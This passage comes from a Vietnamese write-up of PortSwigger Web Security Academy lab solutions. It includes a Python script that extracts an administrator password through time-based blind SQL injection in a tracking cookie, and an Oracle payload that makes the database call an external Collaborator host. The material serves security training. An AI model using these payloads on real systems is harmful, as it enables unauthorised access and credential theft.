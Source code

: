 Từ độ dài của password đã biết, em viết script sau để tìm được chính xác password:

```python
import requests
import string

url = "https://0a7600f20468356580e6ccf4002e00d3.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId": f"' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password, {i}, 1)='{j}') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users)--"}
        r = requests.get(url, cookies=cookie)

        if r.elapsed.total_seconds() > 2:
            password += j
            break

print(f"administrator:{password}")
```

Và cuối cùng đăng nhập thành công với `administrator`:`3lf409hp0t5cfg0gj3d9`.

### Lab 16: [Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
>
> To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Bài lab yêu cầu chúng ta khiến database thực hiện DNS lookup tới Burp Collaborator.

Em đổi giá trị của cookie `TrackingId` thành payload `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://4v0ombmznbre7v78btp19c635ublzcn1.oastify.com/"> %remote;]>'),'/l') FROM dual--`, encode URL rồi gửi request:

![lab-16](images/lab-16/lab-16.png)
